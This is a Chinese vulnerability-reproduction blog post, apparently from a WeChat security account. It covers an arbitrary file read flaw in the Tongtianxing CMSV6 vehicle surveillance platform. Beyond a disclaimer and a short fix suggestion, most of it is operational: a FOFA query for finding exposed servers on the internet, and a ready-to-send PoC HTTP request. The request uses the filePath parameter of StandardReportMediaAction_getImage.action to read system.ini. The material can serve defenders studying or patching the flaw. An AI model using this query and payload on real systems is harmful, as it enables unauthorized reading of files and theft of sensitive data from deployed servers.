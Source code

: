 #  【漏洞复现】通天星CMS安全监控云平台任意文件读取漏洞   
Mr.Song  蚁剑安全实验室   2024-03-28 16:56  
  
大家可以把**蚁剑安全实验室**“**设为星标**  
”，这样就可以及时看到我们最新发布的“**漏洞预警**”及“**漏洞复现**”的安全内容啦！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OIzfYbpicRTTtibTBtOKkjs53UR4qqddP0IGQuvibM6XIHpiaIQuhdpeIzXfQibGQIxbemicg9H3YNCpcMtPGvblKDbg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
****  
**免责声明：****该文章仅用于技术讨论与学习。请勿利用文章所提供的相关技术从事非法测试，若利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果均与文章作者及本账号无关。**  
  
**一、漏洞描述**  
  
深圳市通天星科技有限公司是一家以从事计算机、通信和其他电子设备制造业为主的企业。通天星车载视频监控平台软件拥有多种语言版本，通天星CMSV6拥有以位置服务、无线3G/4G视频传输、云存储服务为核心的研发团队,专注于为定位、无线视频终端产品提供平台服务，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。 此平台存在任意文件读取漏洞，攻击者可通过此漏洞进行   任意文件，获取敏感信息。  
  
**二、漏洞复现**  
  
1、fofa语法查找:  
```
body="./open/webApi.html"||body="/808gps/"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OIzfYbpicRTTr6jRM22iaUnvDUHwAPEgETm0747NxQWzfW3VDVAL3azAiasibAvicNkTp63gfHB6qbAVibP6ICQo4lSw/640?wx_fmt=png&from=appmsg "")  
  
2、平台访问  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OIzfYbpicRTTr6jRM22iaUnvDUHwAPEgETMsHtNCwiavQh62AblkJhqOh5Voe2fvCGBqzL5yggVOJx72Wp3ofibntg/640?wx_fmt=png&from=appmsg "")  
  
3、使用POC进行复现  
```
GET /808gps/StandardReportMediaAction_getImage.action?filePath=C://windows/system.ini&fileOffset=1&fileSize=100 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: language=zh; style=1; EnableAESLogin=0; maintitle=%u4E3B%u52A8%u5B89%u5168%u76D1%u63A7%u4E91%u5E73%u53F0; isPolice=0; JSESSIONID=93EE27F98C1335DED37AF33E45A8D207
Upgrade-Insecure-Requests: 1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OIzfYbpicRTTr6jRM22iaUnvDUHwAPEgETlewsibSUxICamuTggliaDReA7GbrKRml8aJxP5RaSh2SaRrN2xdvjqSg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OIzfYbpicRTTr6jRM22iaUnvDUHwAPEgET0cGI5bu4ytMQ4ArIbqyU6QIRFozicEFMYlzrjkyMqzKnJHCMzgjB2dQ/640?wx_fmt=png&from=appmsg "")  
  
**三、修复建议**  
  
对用户传过来的文件名参数进行硬编码或统一编码，对文件类型进行白名单控制，对包含恶意字符或者空字符的参数进行拒绝。不提供目录遍历服务等。  
  
